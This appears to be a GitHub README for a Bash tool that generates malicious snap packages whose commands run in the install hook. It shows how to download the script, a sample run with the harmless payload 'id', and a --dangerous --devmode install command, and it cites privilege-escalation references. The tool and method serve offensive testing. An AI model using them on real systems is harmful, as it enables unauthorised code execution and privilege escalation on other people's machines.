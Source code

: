 # Snap_Generator
Quick Bash script to generate malicious snap packages. Commands are executed in the install hook runtime.

## Requirements
- [FPM](https://fpm.readthedocs.io/en/latest/installing.html)

## Installation/Usage
- Download/setup:
- 
`wget https://raw.githubusercontent.com/0xAsh/Snap_Generator/main/snap_generator.sh && chmod +x snap_generator.sh`

- Generate snap package:
```
$ ./snap_generator.sh 
Enter payload: 
id
Payload is set to: id 

Enter payload name: 
id


...Generating Payload...

Created package {:path=>"id_1.0_all.snap"}

```
- Run generated package:

`sudo snap install id_1.0_all.snap --dangerous --devmode`


## References:
- https://gtfobins.github.io/gtfobins/snap/
- https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html
